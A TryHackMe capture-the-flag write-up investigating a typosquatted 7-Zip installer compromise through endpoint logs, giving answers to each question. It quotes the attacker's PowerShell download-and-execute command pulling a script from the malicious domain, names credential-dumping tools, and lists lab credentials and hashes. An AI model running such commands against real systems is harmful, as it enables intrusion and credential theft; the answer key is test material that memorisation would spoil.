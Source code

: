 # TryHackMe-Hunt Me II: Typo Squatters

![Image](../WriteUps/images/image-997bdbfe.png)
## Scenario
# Scenario
Just working on a  typical day as a software engineer, Perry received an encrypted 7z archive from his boss containing a snippet of a source code that must be completed within the day. Realizing that his current workstation does not have an application that can unpack the file, he spins up his browser and starts to search for software that can aid in accessing the file. Without validating the resource, Perry immediately clicks the first search engine result and installs the application.
![Image](../WriteUps/images/image-819478dc.png)
Last September 26, 2023,
 one of the security analysts observed something unusual on the workstation owned by Perry based on the generated endpoint and network logs. Given this, your SOC lead has assigned you to conduct an in-depth investigation on this  workstation and assess the impact of the potential compromise.

## Investigation
I began searching for downloads from 7zipp[.]org and event_id 15 and found where the user downloaded the package.
 
![Image](../WriteUps/images/image-667d6681.png)

Searching for dns events involving 7zipp[.]org revealed the IP address of the malicious domain
![Image](../WriteUps/images/image-8c86e433.png)

Searching for the pid where the malicious software was executed by searching for the filename and event id 1 
![Image](../WriteUps/images/image-d0a87d61.png)

Following the execution chain, searching for event id 1 and the domain 7zipp[.]org, I was able to find the next step in the software process by looking for events after the execution time of 9/26/2023 @14:23.00.817
Below you can also see the new file that was downloaded and the service creation 
![Image](../WriteUps/images/image-c08aa9fb.png)

Looking further into the new service that was created, we can see that it was created and executed by the SYSTEM user so the process has the highest level of privilege.
![Image](../WriteUps/images/image-b431502e.png)

We can search for lsass.dmp to see what tool was used to parse the data extracted
![Image](../WriteUps/images/image-4744db0a.png)



## Questions
What is the URL of the malicious software that was downloaded by the victim user?
```javascript
http://www.7zipp.org/a/7z2301-x64.msi
```
What is the IP address of the domain hosting the malware?
```javascript
206.189.34.218
```
What is the PID of the process that executed the malicious software?
```javascript
2532
```
Following the execution chain of the malicious payload, another remote file was downloaded and executed. What is the full command line value of this suspicious activity?
```javascript
powershell.exe, iex(iwr, http://www.7zipp.org/a/7z.ps1, -useb)
```
The newly downloaded script also installed the legitimate version of the application. What is the full file path of the legitimate installer?
```javascript
C:\Windows\Temp\7zlegit.exe
```
What is the name of the service that was installed?
```javascript
7zService
```
The attacker was able to establish a C2 connection after starting the implanted service. What is the username of the account that executed the service?
```javascript
SYSTEM
```
After dumping LSASS data, the attacker attempted to parse the data to harvest the credentials. What is the name of the tool used by the attacker in this activity?
```powershell
Invoke-PowerExtract
```
What is the credential pair that the attacker leveraged after the credential dumping activity? (format: username:hash)
```javascript
james.cromwell:B852A0B8BD4E00564128E0A5EA2BC4CF
```
After gaining access to the new account, the attacker attempted to reset the credentials of another user. What is the new password set to this target account?
```javascript
pwn3dpw!!!
```
What is the name of the workstation where the new account was used?
```javascript
WKSTN-02
```
After gaining access to the new workstation, a new set of credentials was discovered. What is the username, including its domain, and password of this new account?
```javascript
SSF\itadmin:NoO6@39Sk0!
```
Aside from mimikatz, what is the name of the PowerShell script used to dump the hash of the domain admin?
```javascript
Invoke-SharpKatz.ps1
```
What is the AES256 hash of the domain admin based on the credential dumping output?
```javascript
f28a16b8d3f5163cb7a7f7ed2c8f2cf0419f0b0c2e28c15f831d050f5edaa534
```
After gaining domain admin access, the attacker popped ransomware on workstations. How many files were encrypted on all workstations?
```javascript
46
```


https://medium.com/@0x4C1D/try-hack-me-hunt-me-ii-typo-squatters-walkthrough-8da58af050d0
